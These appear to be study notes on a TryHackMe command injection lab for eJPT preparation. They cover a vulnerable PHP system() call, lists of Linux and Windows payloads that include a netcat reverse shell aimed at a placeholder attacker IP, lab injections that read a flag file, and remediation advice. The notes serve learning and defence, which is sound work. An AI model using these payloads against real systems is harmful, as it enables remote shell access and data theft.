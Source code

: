 ```yaml
---
{"dg-publish":true,"permalink":"/thm-notes/web-fundamentals-path/baisc-vuln/command-injection/","title":"Command Injection","tags":["web"]}
---
```


# Command Injection - Detailed Notes for eJPT Preparation

---

## TASK 1 - Introduction

### Definition of Command Injection

**Command Injection** is a web security vulnerability that allows an attacker to execute arbitrary commands on the host operating system via a vulnerable application. This typically occurs when user input is passed directly to a system shell or executed as a command without proper sanitization.

### Importance and Impact

- **Abuse of Functionality**: It exploits the application's behavior to run unintended commands.
- **Remote Code Execution (RCE)**: Often leads to complete system compromise.
- **Examples**: Reading sensitive files, listing user accounts, and modifying system data.

### How Command Injection Happens

Applications that interface with the operating system by executing system commands (using functions like `system()`, `exec()`, `popen()`, etc.) can be vulnerable if they incorporate unsanitized user inputs.

**Example PHP Vulnerable Code**:
```php
<?php
$title = $_GET['title'];
system("grep '$title' songtitle.txt");
?>
```
**Explanation**:
- The variable `$title` is derived directly from user input via `$_GET['title']`.
- This input is passed to the `system()` function, which executes it as part of a command on the server.

---

## TASK 2 - Discovering Command Injection

### Identifying Vulnerabilities

Command injection can be discovered by:
1. **Analyzing Source Code**: Look for functions that execute system commands with user input.
2. **Testing Inputs**: Injecting special characters or commands to see if the behavior changes.

### PHP Example Analysis

```php
<?php
$title = $_GET['title'];
system("grep '$title' songtitle.txt");
?>
```

**Variables and Methods**:
1. **User Input Storage**: `$title` holds the user's input.
2. **HTTP Method**: `GET` method is used to pass data.

**Command Execution Scenario**:
- User input directly appended to the `grep` command.
- Potential for command injection by including shell metacharacters.

### Questions Recap

1. **User Input Variable**: `$title`
2. **HTTP Method**: `GET`
3. **Route for Execution in Python Example**: `/id`

---

## TASK 3 - Exploiting Command Injection

### Types of Command Injection

1. **Verbose Command Injection**:
   - Direct feedback from the executed command.
   - Example: Injecting `whoami` returns the user.

2. **Blind Command Injection**:
   - No direct output. Detectable via indirect methods.
   - Example: Use `ping` to induce delays or `sleep` for response time measurement.

### Common Payloads

**Linux Payloads**:
- `whoami` (get the current user)
- `ls` (list directory contents)
- `ping -c 4 127.0.0.1` (network delay indication)
- `sleep 10` (delay to detect blind injection)
- `nc -e /bin/bash attacker_ip attacker_port` (reverse shell)

**Windows Payloads**:
- `whoami` (get the current user)
- `dir` (list directory contents)
- `ping -n 4 127.0.0.1` (network delay indication)
- `timeout 10` (delay to detect blind injection)

### Practical Application

**Example Injection**:
- To find the user: `& whoami`
- To create a delay: `& ping -c 4 127.0.0.1` (Linux), `& timeout 10` (Windows)

### Questions Recap

1. **Determine User**: `whoami`
2. **Tool for Blind Injection on Linux**: `ping`
3. **Tool for Blind Injection on Windows**: `timeout`

---

## TASK 4 - Remediating Command Injection

### Prevention Strategies

1. **Avoid Dangerous Functions**: Refrain from using functions that directly execute system commands (e.g., `exec()`, `system()`, `passthru()`).
2. **Sanitize Inputs**:
   - Allow only safe characters (e.g., use regex to permit only alphanumeric input).
   - Validate input types (e.g., integers only).

### Example Sanitization

**PHP Sanitization Example**:
```php
if (filter_input(INPUT_GET, 'number', FILTER_VALIDATE_INT) !== false) {
    // Proceed only if input is a valid integer
}
```

### Input Validation Techniques

1. **Whitelist Validation**: Accept only known good inputs.
2. **Blacklist Filtering**: Reject known bad inputs (less secure than whitelisting).
3. **Use Parameterized Commands**: Avoid shell invocation, use language-specific APIs for tasks like file handling or database access.

### Questions Recap

1. **Term for Input Cleaning**: `sanitisation`

---

## TASK 5 - Practical: Command Injection (Deploy)

### Hands-On Command Injection

**Steps to Exploit**:

1. **Determine Application User**:
   - Inject payload: `& whoami`
   - Result: `www-data`

2. **Retrieve Sensitive Data**:
   - Inject payload: `& cat /home/tryhackme/flag.txt`
   - Result: `THM{COMMAND_INJECTION_COMPLETE}`

### Summary

Understanding command injection involves recognizing how user inputs can influence system commands and the significance of sanitizing these inputs to prevent exploitation. This knowledge is essential for securing applications and is a critical aspect of the eJPT certification and real-world cybersecurity practices.

---

These notes provide a comprehensive overview of command injection, blending theoretical understanding with practical application and emphasizing preventive measures. This will aid beginners in preparing for the eJPT certification.